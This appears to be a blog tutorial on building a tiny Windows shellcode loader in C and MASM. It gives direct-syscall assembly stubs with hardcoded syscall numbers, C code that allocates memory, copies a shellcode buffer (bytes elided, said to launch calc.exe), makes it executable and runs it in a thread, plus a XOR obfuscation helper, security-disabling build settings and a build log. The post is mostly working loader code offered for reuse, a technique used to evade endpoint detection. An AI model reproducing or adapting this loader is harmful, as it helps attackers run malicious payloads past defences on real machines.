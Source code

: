```yaml
---
title:  "Creating tiny 3.50 KB windows shellcode loaders, Its not about the size but how you use it: syscalled"
categories: Windows
---
```


Writing very very simple and tiny shellcode loaders using MASM assembly for the fun of it.  


1. Create a new Cpp project and create 3 files, syscall.asm and syscall.c, syscall.h

The project needs to be configured.
Setup phnt header include directory for Solution->ProjectName.

Project->Build Customisation-> masm(.targets, .props) = check box Y


2. Win32 & CRT-less time :)

- project properties linker->input->Ignore All default libraries  =   yes. 
	link library dependencies = no
	Additional Dependencies = add the private ntdllp ;ntdllp.lib or add #pragma comment(lib, "ntdllp.lib") 
	if you have sdk & wdk
	
- linker->Advanced->Entry Point                                   =   ThisIsNotAnEntryPoint (can be custom name)
	linker-> all options -> Show Progress -> Display all progress messages 
	Linker-> Debugging -> Generate Debug Info = No
	
- c++->Code Generation->Basic Runtime Check                       =   default (to avoid linking in __RTC_*. 
- C/C++ -> all options -> security = Disable Security Check (/GS-)
- project properties MASM -> public symbols (Yes (/Zf)) (Can enable this or just specify PUBLIC 
	FuncNameHere at top of asm 
	object file name -> $(SolutionDir)\Bin\%(FileName).obj
	
- project properties MASM -> Advanced -> Calling conv = C-Style /Gd /Gd
	error reporting = do not send

3. create syscall.asm (Get your syscall numbers and target to system)

{% highlight assembly %}
PUBLIC AlloeVirtMem
PUBLIC WriVirMem
PUBLIC ProtVirtMem
PUBLIC CreThreE
PUBLIC WaiSinObj

_DATA SEGMENT
_DATA ENDS

_TEXT SEGMENT

AlloeVirtMem PROC
	mov r10, rcx
	mov eax, 18h
	syscall
	ret
AlloeVirtMem ENDP

WriVirMem PROC
	mov r10, rcx
	mov eax, 3Ah
	syscall
	ret
WriVirMem ENDP

ProtVirtMem PROC
	mov r10, rcx
	mov eax, 50h
	syscall
	ret
ProtVirtMem ENDP

CreThreE PROC
	mov r10, rcx
	mov eax, 0C1h
	syscall
	ret
CreThreE ENDP


WaiSinObj PROC
	mov r10, rcx
	mov eax, 4h
	syscall
	ret
WaiSinObj ENDP


_TEXT ENDS
END
{% endhighlight %}

## syscall.c
{% highlight c %}
/*
Micro Manual MASM based Self Thread Shellcode Injection Using Syscalls
Date	:	29/10/2021
*/

#include "syscall.h"

void ThisIsNotAnEntryPoint(void)
{
	DbgPrint("Custom Entrypoint ThisIsNotAnEntryPoint calc.exe no encryption\n");
		
	unsigned char pload[] = { 0xfc,0x48,0x83,[...SNIP...],0x00 };
	size_t pload_size = sizeof(pload);
	
	HANDLE ph = NtCurrentProcess();
	void * ba = NULL;
	NTSTATUS SysAllocateReturn = AlloeVirtMem(ph, &ba, 0, &pload_size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	DbgPrint("SysAllocateReturn\t%x\n", SysAllocateReturn);

	my_memmove(ba, (void*)pload, 276);
	DbgPrint("ba 0x%p", ba);      
		
	ULONG nprt = PAGE_EXECUTE_READ;
	ULONG oprt = 0;
	NTSTATUS SysNtProtectReturn = ProtVirtMem(ph, &ba, &pload_size, nprt, &oprt);
	DbgPrint("SysNtProtectReturn\t%x\n", SysNtProtectReturn);
	
	HANDLE th = NULL;
	NTSTATUS SysNtCreateReturn = CreThreE(&th, GENERIC_EXECUTE, NULL, ph, ba, NULL, FALSE, 0, 0, 0, NULL);
	DbgPrint("SysNtCreateReturn\t%x\n", SysNtCreateReturn);
	
	WaiSinObj(th, FALSE, NULL);
	DbgPrint("END");
}

{% endhighlight %}

## syscall.h
{% highlight c %}
#pragma once
#define WIN32_LEAN_AND_MEAN
#pragma check_stack(off)

#include "phnt/phnt_windows.h"
#include "phnt/phnt.h"

// this is taken straight from sektor7 RTO-MDE , nice lil xor routine
void XOR(char* data, size_t data_len, char* key, size_t key_len) {
	int j;
	j = 0;
	// for the bytes in the data
	for (int i = 0; i < data_len; i++)
	{
		// Iterate over every character in the key 
		// and "encrypt" XOR a byte with that "key" character
		if (j == key_len - 1) j = 0;
		// xor the data at the iteration index with the key index e.g. data[1] ^ data[1] until key len is reached and 
		// will be repeated
		data[i] = data[i] ^ key[j];
		j++;
	}
}

#define BUFFER_SIZE        4096

// taken straight from https://aticleworld.com/memmove-function-implementation-in-c/
void* my_memmove(void* dest, const void* src, unsigned int n)
{
	char* pDest = (char*)dest;
	const char* pSrc = (const char*)src;
	////allocate memory for tmp array
	//char* tmp = (char*)malloc(sizeof(char) * n);

	char* tmp[BUFFER_SIZE];

	if (NULL == tmp)
	{
		return NULL;
	}
	else
	{
		unsigned int i = 0;
		// copy src to tmp array
		for (i = 0; i < n; ++i)
		{
			*(tmp + i) = *(pSrc + i);
		}
		//copy tmp to dest
		for (i = 0; i < n; ++i)
		{
			*(pDest + i) = *(tmp + i);
		}

		//free(tmp); //free allocated memory
		// not going to free lol
	}
	return dest;
}
{% endhighlight %}

Now due to verbosity of the build, we can see what happens during the build. I dont really understand why some compiler flags clash but thats the MSVC compiler for you.

```
Rebuild started...
1>------ Rebuild All started: Project: Syscall, Configuration: Release x64 ------
1>Assembling syscall.asm...
1>MASM : warning A4018: invalid command-line option : /Gd
1>cl : command line warning D9025: overriding '/sdl' with '/GS-'
1>syscall.c
1>Processed /NODEFAULTLIB (suppressing all default libs)
1>Starting pass 1
1>Searching libraries
[...SNIP...]
1>      Found __imp_DbgPrint
1>        Referenced in syscall.obj
1>        Loaded ntdllp.lib(ntdll.dll)
1>      Found __IMPORT_DESCRIPTOR_ntdll
1>        Referenced in ntdllp.lib(ntdll.dll)
1>        Loaded ntdllp.lib(ntdll.dll)
1>      Found __NULL_IMPORT_DESCRIPTOR
1>        Referenced in ntdllp.lib(ntdll.dll)
1>        Loaded ntdllp.lib(ntdll.dll)
1>      Found ntdll_NULL_THUNK_DATA
1>        Referenced in ntdllp.lib(ntdll.dll)
1>        Loaded ntdllp.lib(ntdll.dll)
1>Finished searching libraries
1>Finished pass 1
1>Generating code
1>Previous IPDB not found, fall back to full compilation.
1>All 2 functions were compiled because no usable IPDB/IOBJ from previous compilation was found.
1>Finished generating code
1>Searching libraries
[...SNIP...]
1>      Found __chkstk
1>        Referenced in syscall.obj
1>        Loaded ntdllp.lib(ntdll.dll)
1>Finished searching libraries
1>Invoking rc.exe:
1> /v
1> /x
1> /fo
1> "C:\Users\ShortUsername\AppData\Local\Temp\lnk{GUID}.tmp"
1> "C:\Users\ShortUsername\AppData\Local\Temp\lnk{GUID}.tmp"
1>Microsoft (R) Windows (R) Resource Compiler Version 10
1>
1>Copyright (C) Microsoft Corporation.  All rights reserved.
1>
1>
1>Using codepage 1252 as default
1>Creating C:\Users\ShortUsername\AppData\Local\Temp\lnk{GUID}}.tmp
1>
1>
1>C:\Users\ShortUsername\AppData\Local\Temp\lnk{GUID}.tmp.
1>Writing 24:1,	lang:0x409,	size 381
1>Invoking cvtres.exe:
1> /machine:amd64
1> /verbose
1> /out:"C:\Users\ShortUsername\AppData\Local\Temp\lnk{GUID}.tmp"
1> /readonly
1> "C:\Users\ShortUsername\AppData\Local\Temp\lnk{GUID}.tmp"
1>Microsoft (R) Windows Resource To Object Converter Version 14
1>Copyright (C) Microsoft Corporation.  All rights reserved.
1>
1>adding resource. type:MANIFEST, name:1, language:0x0409, flags:0x30, size:381
1>Unused libraries:
[...SNIP...]
1>Processing /ORDER options
1>    External code objects not listed in the /ORDER file:
1>        __chkstk		; ntdllp.lib(ntdll.dll)
1>        __imp_DbgPrint		; ntdllp.lib(ntdll.dll)
1>        DbgPrint		; ntdllp.lib(ntdll.dll)
1>        __imp___chkstk		; ntdllp.lib(ntdll.dll)
1>        ??_C@_0DG@NADDNNLH@Custom?5Entrypoint?5ThisIsNotAnEn@		; syscall.obj
1>Finished processing /ORDER options
1>    Discarded DbgPrint from ntdllp.lib(ntdll.dll)
1>Starting pass 2
1>     * CIL library *(* CIL module *)
1>     * linker generated manifest res *
1>     syscall.obj
1>     ntdllp.lib(ntdll.dll)
1>     ntdllp.lib(ntdll.dll)
1>     ntdllp.lib(ntdll.dll)
1>     ntdllp.lib(ntdll.dll)
1>     ntdllp.lib(ntdll.dll)
1>Finished pass 2
1>Syscall.vcxproj -> D:\Collections\Projects\Syscall\Syscall\x64\Release\Syscall.exe
1>Done building project "Syscall.vcxproj".
========== Rebuild All: 1 succeeded, 0 failed, 0 skipped ==========
``` 

Now you will have a tiny binary which doesnt depend on win32 or crt. 
```
DRIVE:\Project\Projects\Syscall\Syscall>ls -lah DRIVE:\Project\Projects\Syscall\Syscall\x64\Release\Syscall.exe
-rwxr-xr-x 1 p4yl0_q36yakq 197610 4.0K Month 99 99:99 'DRIVE:\Project\Syscall\x64\Release\Syscall.exe'
```

Its not about the size but how you use it.